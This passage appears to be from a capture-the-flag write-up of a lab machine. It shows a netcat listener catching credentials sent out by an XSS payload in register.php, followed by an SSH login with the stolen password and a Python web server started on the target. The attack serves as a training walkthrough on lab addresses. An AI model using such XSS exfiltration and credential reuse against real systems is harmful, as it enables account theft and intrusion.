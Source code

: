 the register.php is vulnerable to xss

  
└─$ nc -nvlp 4444                    
listening on [any] 4444 ...
connect to [10.4.124.126] from (UNKNOWN) [10.10.113.114] 32822
POST / HTTP/1.1
Host: 10.4.124.126:4444
Connection: keep-alive
Content-Length: 32
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Referer: http://127.0.0.1/blog.php
Accept-Encoding: gzip, deflate

jack:WhyIsMyPasswordSoStrongIDK


                                                                                                                   
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ssh jack@10.10.21.204 
The authenticity of host '10.10.21.204 (10.10.21.204)' can't be established.
ED25519 key fingerprint is SHA256:4vHbB54RGaVtO3RXlzRq50QWtP3O7aQcnFQiVMyKot0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:20: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.21.204' (ED25519) to the list of known hosts.
jack@10.10.21.204's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 20 Aug 2025 10:47:02 AM UTC

  System load:  0.86               Processes:             144
  Usage of /:   79.8% of 11.21GB   Users logged in:       0
  Memory usage: 40%                IPv4 address for eth0: 10.10.21.204
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

64 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 29 13:44:19 2024
jack@ubuntu:~$ cd /opt
jack@ubuntu:/opt$ python -m http.server 8080                                                                        
                                                                                                                    